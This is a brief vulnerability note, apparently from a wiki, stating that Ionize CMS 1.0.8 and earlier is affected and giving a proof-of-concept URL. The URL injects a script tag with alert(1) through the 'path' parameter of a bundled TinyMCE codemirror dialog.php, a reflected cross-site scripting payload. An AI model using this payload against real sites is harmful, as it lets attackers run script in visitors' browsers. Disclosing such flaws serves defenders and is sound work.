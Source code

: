 <languages />

<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞影響
--------

</div>
\<=Ionize 1.0.8

POC
---

    http://<target>/testcmsofgithub/ionize-master/ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php?path=%22%3E%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3Cscript%20%22